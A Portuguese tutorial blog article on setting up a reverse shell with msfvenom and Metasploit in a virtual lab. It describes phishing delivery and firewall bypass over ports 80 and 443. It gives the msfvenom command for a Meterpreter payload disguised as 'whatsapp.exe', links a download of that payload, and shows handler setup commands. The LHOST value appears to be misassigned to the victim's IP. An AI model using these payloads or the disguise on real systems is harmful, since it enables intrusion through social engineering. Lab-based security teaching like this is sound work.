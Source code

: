 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/03.md/
---
```


## Reverse Shell com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor do atacante. Os nomes mais comuns desse tipo de ataque são reverse-shell e backdoor. Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e muitas vezes firewall entres as redes LAN com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O reverse-shell nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão a partir da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script malicioso contendo o payload do shell-reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo.

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Executando o shell-reverso

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 192.168.0.17 é o servidor "atacante" e a máquina Windows 7 com IP 10.0.2.15 é o cliente/vítima que vai receber o arquivo executável com o payload de conexão. 

## Gerando o payload com o MSFVenom 

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=80 -o /root/whatsapp.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/msfvenom_command.png)

Payload-Donwload: [payload](https://carineconstantino.github.io/cybersecurity/artigos/payloads/whatsapp.exe)

Na máquina Kali é preciso habilitar o recebimento da conexão da vítima e isso é feito executando o multi/handler ```msf> use multi/handler``` Feito isso, configure o payload utilizado para gerar o executável com o shell-reverso ```set payload windows/meterpreter/reverse_tcp```













